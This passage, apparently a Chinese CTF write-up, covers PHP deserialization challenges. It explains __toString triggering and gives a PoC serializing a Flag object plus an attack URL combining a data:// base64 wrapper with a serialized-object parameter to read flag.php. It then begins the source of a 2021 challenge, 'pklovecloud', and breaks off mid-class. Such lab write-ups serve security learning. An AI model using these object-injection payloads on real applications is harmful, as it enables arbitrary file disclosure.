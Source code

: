 ```
?>  
```
这里可以真读取任意文件了，毕竟源码1过滤了file

## 代码分析
1. `__tostring`在所在对象被当作字符串时发动
2. 敏感函数读取$file文件，然后输出
3. 由于源码1 echo了反序列化的$password——当作字符串输出，所以这里就是突破口

## poc链
```
<?php
class Flag{  
    public $file;  
}  
$a = new Flag();
$a->file="flag.php";

echo serialize($a);
//echo urlencode(serialize($a);
?>
```
传入一下url
```
/?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
ps:我想时常试用f12是一个好习惯

## 2021-第五空间智能安全大赛-Web-pklovecloud
## 源码
```
<?php  
include 'flag.php';
class pkshow 
{  
    function echo_name()     
    {          
        return "Pk very safe^.^";      
    }  
} 

class acp 
{   
    protected $cinder;  
    public $neutron;
    public $nova;
    function __construct() 
    {      
        $this->cinder = new pkshow;
    }  
    function __toString()      
    {          
        if (isset($this->cinder))  
            return $this->cinder->echo_name();      
    }  
}  

class ace
{    
    public $filename;     
```